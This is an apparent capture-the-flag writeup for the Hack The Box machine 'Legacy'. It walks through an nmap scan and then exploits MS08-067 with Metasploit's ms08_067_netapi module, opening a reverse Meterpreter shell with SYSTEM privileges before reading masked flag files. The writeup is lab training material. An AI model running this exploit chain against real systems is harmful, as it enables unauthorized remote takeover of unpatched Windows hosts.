


---
search:
  exclude: true
---
# Legacy Writeup

## Introduction :

Legacy is an easy Windows box released back in March 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ root [/home/nihilist] → nmap -sC -sV 10.10.10.4
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-08 22:10 CET
      Nmap scan report for 10.10.10.4
      Host is up (0.044s latency).
      Not shown: 997 filtered ports
      PORT     STATE  SERVICE       VERSION
      139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
      445/tcp  open   microsoft-ds  Windows XP microsoft-ds
      3389/tcp closed ms-wbt-server
      Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
    
      Host script results:
      |_clock-skew: mean: 5d00h59m39s, deviation: 1h24m50s, median: 4d23h59m39s
      |_nbstat: NetBIOS name: LEGACY, NetBIOS user: , NetBIOS MAC: 00:50:56:b9:25:bd (VMware)
      | smb-os-discovery:
      |   OS: Windows XP (Windows 2000 LAN Manager)
      |   OS CPE: cpe:/o:microsoft:windows_xp::-
      |   Computer name: legacy
      |   NetBIOS computer name: LEGACY\x00
      |   Workgroup: HTB\x00
      |_  System time: 2019-11-14T01:10:09+02:00
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      |_smb2-time: Protocol negotiation failed (SMB2)
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 63.05 seconds
    

Here we can see that the port 139, 445, and 3389 are opened. We will take a closer look at the port****running the service****.

## **Part 2 : Getting Access**

It is highly likely that the machine is vulnerable to MS08-067 RCE so we will test it with the according metasploit module.
    
    
      msf5 > search ms08
    
      Matching Modules
      ================
    
         #  Name                                                   Disclosure Date  Rank       Check  Description
         -  ----                                                   ---------------  ----       -----  -----------
         0  auxiliary/admin/ms/ms08_059_his2006                    2008-10-14       normal     No     Microsoft Host Integration Server 2006 Command Execution Vulnerability
         1  auxiliary/fileformat/multidrop                                          normal     No     Windows SMB Multi Dropper
         2  exploit/windows/browser/ms08_041_snapshotviewer        2008-07-07       excellent  No     Snapshot Viewer for Microsoft Access ActiveX Control Arbitrary File Download
         3  exploit/windows/browser/ms08_053_mediaencoder          2008-09-09       normal     No     Windows Media Encoder 9 wmex.dll ActiveX Buffer Overflow
         4  exploit/windows/browser/ms08_070_visual_studio_msmask  2008-08-13       normal     No     Microsoft Visual Studio Mdmask32.ocx ActiveX Buffer Overflow
         5  exploit/windows/browser/ms08_078_xml_corruption        2008-12-07       normal     No     MS08-078 Microsoft Internet Explorer Data Binding Memory Corruption
         6  exploit/windows/smb/ms08_067_netapi                    2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
         7  exploit/windows/smb/smb_relay                          2001-03-31       excellent  No     MS08-068 Microsoft Windows SMB Relay Code Execution
    
    
      msf5 > use exploit/windows/smb/ms08_067_netapi
      msf5 exploit(windows/smb/ms08_067_netapi) > show options
    
      Module options (exploit/windows/smb/ms08_067_netapi):
    
         Name     Current Setting  Required  Description
         ----     ---------------  --------  -----------
         RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
         RPORT    445              yes       The SMB service port (TCP)
         SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
    
    
      Exploit target:
    
         Id  Name
         --  ----
         0   Automatic Targeting
    
    

The module ms08_067_netapi requires us to set the above-mentionned options : RHOSTS and RPORT.
    
    
      msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
      RHOSTS => 10.10.10.4
      msf5 exploit(windows/smb/ms08_067_netapi) > run
    
      [*] Started reverse TCP handler on 10.10.14.48:4444
      [*] 10.10.10.4:445 - Automatically detecting the target...
      [*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
      [*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
      [*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
      [*] Sending stage (180291 bytes) to 10.10.10.4
      [*] Meterpreter session 2 opened (10.10.14.48:4444 -> 10.10.10.4:1032) at 2019-11-09 11:20:27 +0100
    
      meterpreter > pwd
      C:\WINDOWS\system32
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
    
    

the metasploit module was successful, it gave us a meterpreter shell with elevated privileges.

## **Part 3 : The Root Access**

All we need to do now is simply grab the user and root flags.
    
    
      meterpreter > cd Documents\ and\ Settings
      meterpreter > cd john
      meterpreter > cd Desktop
      meterpreter > cat user.txt
      e6XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
      meterpreter > cd ../../..
    
      meterpreter > cd Documents\ and\ Settings
      meterpreter > cd Administrator
      meterpreter > cd Desktop
      meterpreter > cat root.txt
      99XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

